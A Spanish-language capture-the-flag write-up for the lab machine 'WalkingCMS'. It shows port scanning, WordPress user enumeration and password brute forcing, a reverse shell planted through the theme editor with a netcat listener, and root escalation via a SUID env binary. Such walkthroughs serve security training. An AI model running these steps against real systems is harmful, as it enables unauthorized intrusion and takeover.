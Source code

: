 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  09/04/2024
---
```


# WalkingCMS

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea la de por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos ver hay un directorio **WordPress** por lo que indagamos en él.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a enumerar que usuarios y plugins hay.

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta a través de la misma herramienta.

```bash
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### &#x20;🚀 **EXPLOTACIÓN**

Estamos dentro vamos a la sección de **Apariencia** en concreto **Theme Code Editor** para subir la [**Reverse Shell**](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Miramos los directorios que tenemos permisos **SUID**

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

El directorio `/env` nos llama la atención lo explotamos para escalar privilegios a través de esta [página](https://gtfobins.github.io/gtfobins/env/).

```bash
/usr/bin/env /bin/sh -p
```

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
